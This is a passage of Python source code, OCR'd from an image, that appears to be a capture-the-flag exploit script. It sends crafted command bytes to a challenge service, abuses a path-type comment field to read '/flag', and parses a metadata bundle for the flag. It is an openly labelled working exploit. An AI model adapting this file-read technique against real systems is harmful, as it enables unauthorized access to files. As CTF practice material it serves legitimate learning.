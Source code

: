 ```Parsed fields:
                break
        if matched_key and i + 1 < len(tokens):
            # Prefer the very next printable token as the value
            key = matched_key.decode("ascii", errors="ignore")
            val = tokens[i + 1].decode("utf-8", errors="ignore")
            # Guard against obviously invalid huge values
            if len(val) > 0:
                out[key] = val
    return out


# Exploit flow ---------------------------------------------------------------

def exploit_fetch_metadata(io) -> Tuple[Optional[Dict[str, str]], bytes]:
    # 0x10: enable session; 0x22: build default entry with flag in Author; 0x32 x01: request bundle
    send_cmd(io, b"\x10")
    io.recv(timeout=1.1)  # ignore 1-byte ack if present
    send_cmd(io, b"\x22")
    io.recv(timeout=1.1)
    send_cmd(io, b"\x32\x01")

    chunk = read_chunk(io, timeout=2.0)
    if not chunk:
        return None, b""
    tag, payload = chunk
    parsed = parse_kv_payload(payload)
    return parsed, payload


def exploit_fetch_flag_via_comment(io) -> bytes:
    """Abuse comment type=2 (path) to read /flag plaintext and return it."""
    # 0x10: enable
    send_cmd(io, b"\x10")
    io.recv(timeout=0.5)
    # 0x22: create default entry (comment type preset to 2)
    send_cmd(io, b"\x22")
    io.recv(timeout=0.5)
    # 0x31: set comment to path "/flag" (length-prefixed blob)
    send_cmd(io, b"\x31")
    send_length_prefixed_blob(io, b"/flag")
    io.recv(timeout=0.5)
    # 0x30: get comment value; server returns a tagged blob containing file contents
    send_cmd(io, b"\x30")
    chunk = read_chunk(io, timeout=2.0)
    if not chunk:
        return b""
    _tag, payload = chunk
    return payload


def main():
    host = os.environ.get("HOST", "127.0.0.1")
    port = int(os.environ.get("PORT", "4265"))
    io = remote(host, port)
    try:
        # First path: MD5-hex via PNG metadata bundle
        kv, raw = exploit_fetch_metadata(io)
        if kv:
            print("Parsed fields:")
            for k in ("Author", "Comment", "Software"):
                if k in kv:
                    print(f"- {k}: {kv[k]}")
            if "Author" in kv:
```